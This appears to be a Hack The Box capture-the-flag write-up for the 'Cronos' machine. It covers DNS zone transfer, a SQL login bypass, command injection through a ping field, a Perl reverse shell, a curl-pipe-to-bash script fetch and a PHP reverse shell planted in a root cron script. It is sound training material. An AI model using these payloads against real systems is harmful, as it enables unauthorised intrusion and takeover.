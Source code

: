# Cronos
> Name: Cronos<br/>
> Difficulty: Medium<br/>
> Solved: 25th June 2021<br/>

## Intro
Cronos is an interesting  Linux (ubuntu) machine. Below is the log of how i approached it.

<br/>

## Enumeration
Lets first scan the box with nmap to see services running. We use below command:<br/>

    `$ nmap -sC -sV -oA nmap/cronos 10.10.10.13`<br/>
    
Above command runs nmap with default scripts `-sC`, version detection `-sV` and creates output in other file formats.
<br/>

The scan gives the following output:
![Nmap Image](./images/cronos_nmap.png)

We have services running on port 22, 53 and 80. We'll check them in detail.

First, lets check the website running on port 80. 

![](./images/cronos_apacheDefault.png)

It just gives us a default Apache page. I tried gobuster on it but found no directories. :(

<br/>

Then we turn our attention to port 53, I had no idea about <span id=yellow>ISC BIND service</span>. Searching the internet provided some information.<br/>
Below is a simple description:
> BIND (Berkeley Internet Name Domain) is an open source software that enables you to publish your Domain Name System (DNS) information on the Internet, and to resolve DNS
queries for your users.

Next, Looked at `searchsploit` for any known exploits, spent some time trying them, but none of them worked.

After a while i queried the server for its <u>reverse DNS record</u>, i used below command:<br/>
    `dig @10.10.10.13 -x 10.10.10.13`<br/>

Below we can see, that the server responded:

![](./images/cronos_dig1.png)

Now, we have new domains. So i added <span id=yellow>ns1.cronos.htb</span> and <span id=yellow>cronos.htb</span> to my host file.<br/>

Visiting cronos.htb and ns1.cronos.htb provided with a simple webpage created using Laravel and no further directories were revealed with gobuster .
So this seemed like a dead end. :(

<br/>
Now, since this is a DNS Server, it tried to do <u>zone transfer</u> and it worked. See below:

![](./images/cronos_dig.png)
Consequently, this revealed the admin portal -> <span id=green>admin.cronos.htb</span>


Now i visited admin.cronos.htb and was greeted with a login form as shown below

![](./images/cronos_adminpanel.png)

<br/>
I tried basic payloads and got in with a simple SQL authentication bypass payload:<br/>
    `admin' or '1'='1'#`  or  `admin' #`     worked for me.
    
We can see the request in Burp for the same
![](./images/cronos_authbypass.png)

<br/>

After the bypass it redirected me to a simple webpage, where two commands  `traceroute` and `ping` could be executed. 

I verified if i could ping my machine, below we can see `tcpdump` capturing ping request coming to our machine.
![](./images/cronos_cmdexecution.png)

Next, it was only natural to try to see if i could get <span id=green>command execution here</span>.<br/>
So i tried the payload `8.8.8.8; ls` and it displayed the contents of web root directory.<br/>Great! We have command execution.

Then i set up a listener on my local machine and ran a reverse shell on the server and got the session.<br/>

![](./images/cronos_perlshell.png)

Perl reverse shell Payload used above:
```perl
8.8.8.8; perl -e 'use Socket;$i="10.10.14.7";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
<br/>

Below we can see, we get a session on our local machine <span id=green>:)</span>
![](./images/cronos_rshell1.png)

Now, we have session to server. we see a home directory of user `noulis` and there we get our `user.txt` <span id=green>flag</span>.

Next task: Priveldge escalation.
<br/>
<br/>

## Priveledge Escalaiton

Make a local python server and upload the `linEnum.sh` script.<br/>

  Start a local python server  : `$ python -m SimpleHTTPServer 8181`<br/>
  Download and run on attacker : `$ curl http://10.10.14.7/linEnum.sh | bash`
  
![](./images/cronos_linEnum1.png)

<br/>
Spent some times time looking at the output, its a lot. Then came across something <span id=green>interesting:</span>

![](./images/cronos_linEnum1.png)

Above we can see, the PHP script `/var/www/laravel/artisan` is being run as root, which we can modify.

<br/>
Now, we prepare a PHP webshell and upload it to replace the contents of the  script `artisan`. 
```php
#!/usr/bin/env php
<?php
$sock=fsockopen("10.10.14.7",4445);exec("/bin/sh -i <&3 >&3 2>&3");
```
<br/>
Below is detail of steps performed to upload PHP webshell
![](./images/cronos_exploitation.png)

<br/>
Meanwhile, we set up a listener at port `4445`, and wait for shell to execute via cronjob.<br/>
After a minute, got the session and  read the root flag :)

![](./images/cronos_root.png)

<br/>
<span id=green>Cronos is Owned!!!</span>


<br/>

[<< Back](https://grey-fish.github.io/HTB/index.html)
